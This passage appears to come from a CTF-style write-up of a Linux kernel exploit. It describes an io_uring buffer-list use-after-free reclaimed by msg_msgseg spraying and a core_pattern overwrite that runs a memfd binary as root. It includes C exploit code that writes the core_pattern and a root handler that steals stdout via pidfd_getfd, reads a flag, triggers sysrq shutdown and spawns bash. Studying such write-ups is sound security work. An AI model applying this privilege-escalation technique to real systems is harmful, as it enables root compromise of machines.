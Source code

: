 As soon as the race condition is hit and the freed `io_buffer_list` is reclaimed via `msg_msgseg` spraying, we overwrites the `core_pattern` to execute the memfd binary. This string causes the kernel to run the binary located at `/proc/<pid>/fd/666` when a core dump occurs.

``` c
int main(int argc, char *argv[])
{
    // [...]
    pbuf = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, ioring_fd, IORING_OFF_PBUF_RING + (0x69 << IORING_OFF_PBUF_SHIFT));
    strcpy(pbuf + (CORE_PATTERN_OFFSET & 0xfff), "|/proc/%P/fd/666 %P");
    // [...]
}
```

When the memfd binary is executed via the `core_pattern` with root privileges, it receives the crashing process's PID as its second argument. The memfd handler then uses `pidfd_getfd()` to duplicate the crashing process's stdout, prints the flag, and shuts down the machine.

``` c
int main(int argc, char *argv[])
{
    int ret;
    void *cq;
    void *sq;
    void *dummy;
    void *pbuf;
    void *payload;
    unsigned long ktext;

    /**
     * When the exploit succeeds, the core_pattern monitor will trigger a segfault
     * and execute the memfile as root, passing the PID as an argument.
     */
    if (argc > 1) {
        int pid = strtoull(argv[1], 0, 10);
        int pfd = syscall(SYS_pidfd_open, pid, 0);
        int stdoutfd = syscall(SYS_pidfd_getfd, pfd, 1, 0);
        dup2(stdoutfd, 1);
        
        system("cat /flag;echo o>/proc/sysrq-trigger");
        execlp("bash", "bash", NULL);
    }
    // [...]
}
```
